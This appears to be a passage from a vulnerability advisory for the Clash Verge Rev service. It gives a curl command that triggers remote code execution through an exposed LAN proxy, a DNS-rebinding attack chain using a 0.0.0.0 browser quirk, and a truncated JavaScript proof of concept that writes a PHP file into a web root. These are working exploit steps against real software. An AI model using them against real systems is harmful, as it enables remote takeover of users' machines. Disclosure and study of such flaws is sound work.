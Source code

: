 ## Exploitation Vector 2: Remote Code Execution (RCE)

The vulnerability can be escalated to RCE in two scenarios.

### Scenario A: RCE from LAN via Proxy Abuse

If a user enables the "Allow LAN"(局域网连接) option within the Clash Verge Rev client, the application's proxy server becomes accessible to all devices on the same local network. An attacker on the same LAN can exploit this by directing their malicious request through the victim's exposed proxy.

```bash
curl --proxy http://192.168.108.129:7897 \
     -XPOST http://127.0.0.1:33211/start_clash \
     -H 'Content-Type: application/json' \
     -d '{
         "bin_path":"/path/to/malicious/script",
         "config_dir":"/tmp",
         "config_file":"/dev/null",
         "log_file":"/tmp/x"
     }'
```

### Scenario B: RCE from Public Internet via DNS Rebinding

A more advanced attack can be performed from the internet without requiring LAN access. The attack chain leverages DNS Rebinding in combination with a specific browser behavior known as the "0.0.0.0-day" exploit.

The key to this attack is that Firefox and certain versions of Chromium treat the IP address `0.0.0.0` as an alias for `127.0.0.1`. This allows an attacker to bypass modern browser security features like the Same-Origin Policy (SOP) and Private Network Access (PNA).

The attack flow is as follows:

1. The victim visits a malicious website hosted on an attacker-controlled domain (e.g., `attacker.com`).
2. The attacker's DNS server first resolves `attacker.com` to its real public IP address. The malicious page loads in the victim's browser.
3. The JavaScript on the page makes further requests. In the background, the attacker's DNS server changes the IP for `attacker.com` to `0.0.0.0` with a very short TTL.
4. When the browser's DNS cache expires, it re-resolves `attacker.com` and now receives `0.0.0.0`.
5. Due to the browser-specific behavior, the request is not blocked but is instead sent directly to `127.0.0.1` on the victim's machine.

Since the request's origin is still `attacker.com`, the script successfully bypasses security restrictions and communicates directly with the vulnerable clash-verge-service API on `127.0.0.1:33211`, achieving remote code execution.

### Proof of Concept (DNS Rebinding with Singularity)

1. Install [singularity](https://github.com/nccgroup/singularity)
2. Use payload：

```javascript
/**
 * Clash-Verge-Rev payload
 */
const ClashVergeTrueLog = () => {

  const BODY = `{
    "bin_path": "/bin/true",
    "config_dir": "<?php phpinfo();?>",
    "config_file": "/dev/null",
    "log_file": "/var/www/html/exp.php"
  }`;

  function attack() {
```